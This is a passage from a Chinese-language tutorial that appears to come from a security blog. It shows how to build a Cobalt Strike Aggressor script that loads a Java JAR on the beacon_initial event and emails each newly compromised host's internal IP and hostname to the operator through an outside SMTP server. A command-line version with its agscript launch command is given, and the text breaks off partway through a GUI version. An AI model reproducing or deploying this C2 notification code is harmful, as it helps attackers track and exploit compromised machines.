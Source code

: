 了解到如何加载java类后通过调用`beacon_initial`方法在新目标上线时执行相应的方法。

```
on beacon_initial `{`

# 做一些东西
`}`
```

通过以上知识编写好java类打包成Jar（源代码在下方会提供）提供一个带参数的方法在Aggressor脚本中的beacon_initial方法进行加载从而发送邮件。



## 这里把版本分为了命令行版与GUI版本如下：

### 命令行版代码

```
import email.content.Main from: cna_mail.jar;
on beacon_initial `{`
# 循环获取所有beacon
#xxxxxxx@163.com 代表接收发送邮箱
#account 代表接收邮箱列表
foreach $entry (beacons()) `{`

               if($entry['id'] == $1)`{`
@account = @("xxx@163.com","xxx@163.com");

$value = [new Main];
[$value setValue : "xxxxxxx@163.com","password","smtp.163.com",@account,$entry['computer'],"fajianren",,"Target ip:" . $entry['internal'] . " Target host: " . $entry['computer']];
[$value  start];

    `}`
  `}`
`}`
```

命令行版主要作用是在服务器上进行运行运行完成后无需在操作上线即可接收到邮箱内容为`Target ip:xxxx Target host:xxxx`，加载方法如下：

```
./agscript [host] [port] [user] [password] [/path/to/script.cna]
```

[![](https://p0.ssl.qhimg.com/t0158406cb53e805803.png)](https://p0.ssl.qhimg.com/t0158406cb53e805803.png)

在GUI客户端可以查看到ad用户以上线

[![](https://p1.ssl.qhimg.com/t01d41b62585bf6b909.png)](https://p1.ssl.qhimg.com/t01d41b62585bf6b909.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](Documents%20and%20SettingsAdministrator%E6%A1%8C%E9%9D%A2ad.png)**GUI版本代码**

```
import email.content.Main from: cna_mail.jar;
local('$smtp $myEmailAccount $myEmailPassword $Sender @Recipients');

sub stage_attack`{`

 %options = $3;
$smtp = %options['smtp'];
$myEmailAccount = %options['myEmailAccount'];
$myEmailPassword = %options['myEmailPassword'];
$Sender = %options['Sender'];
 #输入的内容是以,隔开的所以这里有,进行分割
@Recipients = split(',',%options['Recipients']);
 `}`

```